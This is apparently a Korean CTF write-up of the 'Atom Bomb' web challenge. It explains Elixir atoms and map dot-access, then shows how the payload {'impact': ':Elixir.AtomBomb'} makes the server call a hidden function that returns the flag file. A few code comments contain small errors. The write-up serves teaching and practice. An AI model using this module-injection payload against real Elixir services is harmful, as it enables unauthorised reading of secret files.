



# Atom Bomb

```
This new atom bomb early warning system is quite strange...
```

## Description

해당 문제에서 제공하는 링크를 접속하면 다음과 같이 Bomb 정보 및 Bomb에 대한 위험성 평가를 확인할 수 있는 웹 페이지가 나옵니다.


위 페이지 상단의 `Check for bomb alert` 버튼을 클릭하면 Bomb 정보가 변경되고 변경된 Bomb에 대한 위험성 평가 정보를 확인할 수 있습니다.



이때, 상단의 `Check for bomb alert` 버튼을 클릭하면 총 2개의 HTTP 패킷이 발생하는데 해당 패킷의 정보는 다음과 같습니다.

1️⃣ `GET` `/atom_bomb` 


2️⃣ `POST` `/bomb_impacts`


즉, 처음에 `/atom_bomb` 요청을 통해 랜덤한 bomb를 가져온 뒤, 해당 bomb를 `/bomb_impacts` 요청을 통해 위험성 평가 정보에 대한 메시지를 응답받게됩니다.

이어서 해당 문제에서 제공하는 문제 파일을 살펴보겠습니다. 문제의 압축 파일을 풀어보면 `.ex`, `.exs` 확장자를 가지는 파일들이 보입니다. 이는 Elixir 프로그래밍 언어로 작성된 소스 코드로, `.ex` 는 컴파일 대상이 되는 모듈 파일을 의미하고 `.exs` 는 별도의 컴파일 단계 없이 Elixir 인터프리터가 바로 실행할 수 있는 스크립트 파일을 의미합니다.


위 파일들을 들여다 보면 `router.ex` 에서 URL 요청에 대한 라우팅 처리를 하는 것을 알 수 있고, 요청 받은 처리를 `page_controller.ex` 에서 이루어지는 것을 확인할 수 있었습니다.



- *좌: `router.ex`, 우: `page_controller.ex`*

그리고 `page_controller.ex` 에서 각 URL 엔드포인트에 대한 처리를 위해 `get_bomb`, `atomizer`, `calculate_bomb_danger_level` 함수들을 호출하고 있는데, 이는 `atom_bomb.ex` 에 정의되어 있는 것을 확인할 수 있었습니다.


- *좌: `page_controller.ex`, 우: `atom_bomb.ex`*

또한, `atom_bomb.ex` 에는 `bomb()` 함수가 존재하는데, 해당 함수 구문에는 플래그가 담겨 있는 `flag.txt` 파일을 읽어들여 반환하는 것을 확인할 수 있었습니다.


이에 `bomb()` 함수를 호출하는 곳을 살펴보려 했으나 해당 함수가 호출되는 위치는 발견되지 않았습니다.

그러다 문제 명 `Atom bomb` 에서 힌트를 확인할 수 있었는데, Elixir에서 불변의 값을 나타내는 데이터 타입을 `Atom` 이라고 합니다.  이 `Atom` 에 대해 좀 더 알아보겠습니다.

✅ Elixir에서 `Atom` 이란?

- 이름 자체가 값이 되는 상수로, 컴파일 시점에 결정되는 고유한 식별자
    
    예를 들어, `:hello` 는 `hello` 라는 이름의 `Atom` 을 생성하고, `:"hello world"` 는 공백이 포함된 `"hello world"` 라는 이름의 `Atom`을 생성합니다. 또한, 다음과 같이 비교 구문을 통해 `Atom` 은 고유한 식별자라는 것을 알 수 있습니다.
    
    ```elixir
    # Atom끼리 비교
    :ok == :ok
    # true
    
    # Atom과 String 비교
    :ok == "ok"
    # false
    ```
    
- `Atom`은 런타임에 동적으로 생성될 수도 있지만, 이는 메모리 누수의 위험이 있어 주의
    
    한번 올라간 `Atom` 은 VM 종료 전까지 계속 존재합니다. 이와 관련하여 문자열을 `Atom` 으로 변환하는 함수로 `String.to_atom/1`, `String.to_existing_atom/1` 가 있는데 다음의 코드를 통해 설명하겠습니다.
    
    ```elixir
    defmodule TestModule do
    	def test do
    		"test"
    	end
    end
    
    String.to_atom("test") # 정상
    # :test
    String.to_atom("hello") # 정상
    # :hello
    String.to_existing_atom("test")
    # :test
    String.to_existing_atom("hello") # 에러, hello라는 Atom이 존재하지 않으므로
    ```
    
    즉,  `String.to_atom/1` 함수를 호출하면 새 `Atom` 이 생성되어 메모리가 증가될 수 있는 위험이 있지만, `String.to_existing_atom/1` 을 호출하면 존재하는 `Atom` 만 변환하므로 메모리가 증가하는 것을 방지할 수 있습니다. 
    
- 일반적으로 `Atom` 은 모듈 이름, 함수 이름, 상태 값 등을 나타내는데 사용
    
    예를 들어, 다음과 같이 `Atom`을 사용하여 모듈의 함수를 호출할 수 있습니다.
    
    ```elixir
    defmodule TestModule do
      def test do
        "test"
      end
    end
    
    mod = :TestModule
    fun = :test
    
    apply(mod, fun,  []) # 이렇게도 호출할 수 있다.
    # 결과: "test"
    ```
    

또한, Elixir에서 데이터 타입이 Map 일 때, 일반적으로 Key의 데이터 타입에 따라 접근 방식이 달라집니다.

✅ Elixir에서 데이터 타입이 Map 인 경우 접근 방식

- `a.b`: Dot(`.`)로 접근
    
    이때는 Key `b` 가 `Atom` 일 때만 가능하다.
    
    ```elixir
    a= %{b: "It is Atom", num: 30}
    IO.inspect(a.b)   # "It is Atom"
    IO.inspect(a.num) # 123
    ```
    
- `a["b"]`: `String` 키로 접근
    
    Key가 `String` 인 경우에만 정상 동작하고, 만일 `b` 가 `Atom` 인 경우에는 `nil` 을 반환한다.
    
    ```elixir
    a = %{"b" => "It is String", "num" => 123, :c => "This is Atom Key"}
    IO.inspect(a["b"])   # "It is String"
    IO.inspect(a["num"]) # 123
    IO.inspect(a["c"])   # nil
    ```
    

그 다음 이번 문제의 핵심 포인트로, Map에서 `Atom` 키를 통해 가져온 값이 모듈인 경우 Dot(`.`)를 통해 함수 이름을 명시하는 것만으로 함수 호출이 자동으로 발생합니다. 즉, 함수 호출 괄호 `()` 없이 호출이 발생합니다.

이를 코드로 살펴보면 다음과 같습니다.

```elixir
defmodule TestModule do
  def test do
    "Test!"
  end
end

param = %{
  a: TestModule
}

IO.puts(param.a.test)
# 결과: "Test!"
```

즉, 여기서 `param.a.test` 는 `TestModule.test()` 호출과 같습니다.

## Solution

방금까지 살펴본 내용을 통해 다시 문제의 소스코드를 다시 살펴보겠습니다. 우선 URL `/bomb_impacts` 요청이 발생할 때, 요청 데이터는 다음과 같습니다.

```json
POST /bomb_impacts HTTP/1.1
Host: atom-bomb.atreides.b01lersc.tf
Content-Type: application/json

{
    "impact": {
        "bomb": {
            "location": "new york",
            "power": 1187,
            "altitude": ":space",
            "explosion_type": 1
        }
    }
}
```

위 요청 URL `/bomb_impacts` 는 조금 전 코드에서 본 것 처럼 `page_controller.ex` 파일의 `get_bomb_impacts` 함수를 호출하고 있습니다. 

```elixir
# router.ex 파일 내 일부
scope "/", AtomBomb do
  pipe_through :api

  get "/atom_bomb", PageController, :get_atom_bomb
  post "/bomb_impacts", PageController, :get_bomb_impacts # ← 여기로 접근
end

# page_controller.ex 파일 내 일부
def get_bomb_impacts(conn, params) do
  params = AtomBomb.atomizer(params)

  danger_message = AtomBomb.calculate_bomb_danger_level(params.impact.bomb)

  render(conn, :danger_level, danger_message: danger_message)
end
```

이때, 요청 패킷의 페이로드는 `get_bomb_impacts` 함수의 `params` 인자로 전달되고, 곧이어 `AtomBomb.atomize` 함수를 인자로 전달하여 호출하고 있습니다. 해당 함수는 다음과 같이 구현되어 있습니다.

```elixir
# atom_bomb.ex 파일 내 일부
def string_to_atom(string) do
  try do
    {:ok, String.to_existing_atom(string)}
  rescue
    # no atom for this string exists
    ArgumentError -> :error
  end
end

@doc """
Converts params to atoms
"""
def atomizer(params) when is_map(params) do
  IO.puts("is_map")
  Enum.map(params, fn {key, val} -> case string_to_atom(key) do
    {:ok, key} -> {key, atomizer(val)}
    :error -> nil
  end
  end)
  |> Enum.filter(fn val -> val != nil end)
  |> Map.new
end

def atomizer(params) when is_list(params) do
  IO.puts("is_list")
  Enum.map(params, &atomizer/1)
end

def atomizer(params) when is_binary(params) do
  IO.puts("is_binary")
  if String.at(params, 0) == ":" do
    # convert string to atom if it starts with :
    # remove leading :
    atom_string = String.slice(params, 1..-1//1)

    case string_to_atom(atom_string) do
      {:ok, val} -> val
      :error -> nil
    end
  else
    params
  end
end

# any other value is left as is
def atomizer(params) do
  IO.puts("normal")
  params
end
```

위 코드를 살펴보면 요청 페이로드의 값을 모두 순회하며 데이터 타입을 `Atom` 으로 변환하는 것을 확인할 수 있습니다. 이를 시각화 하면 조금 전 요청 페이로드는 다음의 순서로 호출됩니다.

✅ 요청 페이로드

```json
{
    "impact": {
        "bomb": {
            "location": "new york",
            "power": 1187,
            "altitude": ":space",
            "explosion_type": 1
        }
    }
}
```

✅ 함수 호출 순서

```elixir
def atomizer(params) when is_map(params) do ... end # {"impact": {"bomb":{...}}}
#   ↓
def atomizer(params) when is_map(params) do ... end # "impact": {"bomb":{...}}
#   ↓
def atomizer(params) when is_map(params) do ... end # "bomb":{...}
#   ↓
def atomizer(params) when is_binary(params) do ... end # "location": "new york",
#   ↓
def atomizer(params) do ... end # "power": 1187
#   ↓
def atomizer(params) when is_binary(params) do ... end # "altitude": ":space",
#   ↓
def atomizer(params) do ... end # "explosion_type": 1
```

즉, 요청 페이로드의 Key를 모두 순회하며, 위 `atomizer` 함수 중 전달된 인자 `params` 가 `map`, `binary` 타입인 경우 다음과 같이 `string_to_atom` 함수를 호출하는 것을 확인할 수 있습니다.


따라서, 전달된 요청 페이로드는 `atomizer` 함수 호출 이후 전부 `Atom` 타입으로 변경된 Map 타입의 데이터를 반환하는 것을 알 수 있습니다.

이후에는 `AtomBomb.calculate_bomb_danger_level` 함수가 호출되는데, 인자 값으로 `params.impact.bomb` 가 전달됩니다.


이때, `params.impact` 가 모듈을 전달할 경우 `params.impact.bomb` 는 모듈의 `bomb/0` 함수를 호출하려고 시도하게 됩니다. 

즉, Flag 파일을 읽어들이는 함수 `bomb` 는 다음과 같이 `AtomBomb` 모듈 이므로, `params.impact` 에 `:Elixir.AtomBomb` 를 전달할 경우 `AtomBomb` 모듈의 `bomb` 함수가 호출됩니다.



따라서, 조금 전 URL `/bomb_impacts` 요청 페이로드에 아래의 페이로드를 전달하게 되면 플래그를 획득할 수 있습니다.

```json
{
	"impact": ":Elixir.AtomBomb"
}
```

